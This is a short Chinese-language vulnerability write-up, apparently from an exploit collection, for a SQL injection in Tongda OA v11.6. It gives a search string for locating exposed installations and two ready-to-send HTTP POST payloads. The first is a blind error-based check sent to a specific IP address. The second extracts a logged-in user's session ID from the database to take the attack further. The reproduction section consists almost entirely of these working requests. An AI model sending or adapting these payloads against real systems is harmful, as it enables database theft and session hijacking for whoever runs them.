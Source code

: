 # 通达OA v11.6 insert SQL注入漏洞

## 漏洞描述

通达OA v11.6 insert参数包含SQL注入漏洞，攻击者通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>通达OA v11.6 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628303165911-5ee90d8c-903a-46d7-a373-ab9b04bdb173.png)

发送请求包判断漏洞

```php
POST /general/document/index.php/recv/register/insert HTTP/1.1
Host: 101.89.158.158
User-Agent: Go-http-client/1.1
Content-Length: 77
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

title)values("'"^exp(if(ascii(substr(MOD(5,2),1,1))<128,1,710)))# =1&_SERVER=
```

返回302则是存在漏洞，返回500则不存在

![img](../../../.vuepress/public/img/1628303346227-1737a449-b413-4475-83b3-0190c946fa7c.png)

确认存在漏洞后，再通过SQL注入获取 SessionID进一步攻击

```php
POST /general/document/index.php/recv/register/insert HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 122
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

title)values("'"^exp(if(ascii(substr((select/**/SID/**/from/**/user_online/**/limit/**/0,1),8,1))<66,1,710)))# =1&_SERVER=
```


